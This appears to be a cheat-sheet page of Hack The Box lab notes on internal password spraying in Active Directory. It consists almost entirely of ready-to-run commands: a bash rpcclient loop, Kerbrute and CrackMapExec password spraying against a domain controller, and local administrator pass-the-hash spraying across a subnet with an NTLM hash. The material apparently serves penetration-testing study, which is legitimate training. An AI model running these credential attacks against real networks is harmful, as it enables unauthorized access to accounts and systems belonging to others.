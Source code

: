 
## <span style="color:yellow">Internal Password Spraying from a Linux Host</span>


#### Using a Bash one-liner for the Attack (RPCCLIENT)

```shell
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```


#### Using Kerbrute for the Attack

```shell
Sauuron@htb[/htb]$ kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```

#### Crackmapexec

```shell
Sauuron@htb[/htb]$ sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +
```

## <span style="color:yellow"> Local Administrator Password Reuse</span>

#### Local Admin Spraying With CrackMapExec

```shell
Sauuron@htb[/htb]$ sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +
```

